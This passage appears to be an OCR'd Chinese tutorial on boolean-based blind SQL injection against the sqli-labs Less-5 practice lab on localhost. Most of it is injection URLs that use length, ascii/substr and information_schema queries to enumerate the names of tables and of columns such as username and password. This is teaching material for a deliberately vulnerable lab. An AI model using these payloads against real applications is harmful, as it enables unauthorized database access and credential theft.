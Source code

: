 //判断第二个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database()
limit 1,1))=6
3：判断每个表的每个字符的ascii值
//判断第一个表的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()
limit 0,1),1,1))>100 #
 
//判断第一个表的第二个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()
limit 0,1),2,1))>100
#
.........
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断

# 判断表中的字段


http://127.0.0.1/sqli/Less-5/?id=1' and exists(select username from admin)   //如果已经证实了存在admin表，那么猜测是否存在username字段
1：判断表中字段的个数
//判断users表中字段个数是否大于5，这里的users表是通过上面的语句爆出来的
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(column_name) from information_schema.columns where table_name='users')>5 #
2：判断字段的长度
//判断第一个字段的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))
>5
 
//判断第二个字段的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 1,1))
>5
3：判断字段的ascii值
//判断第一个字段的第一个字符的长度
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit
0,1),1,1))>100

 
//判断第一个字段的第二个字符的长度
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit
0,1),2,1))>100
...........
由此可判断出users表中存在 id、username、password 字段

# 判断字段中的数据

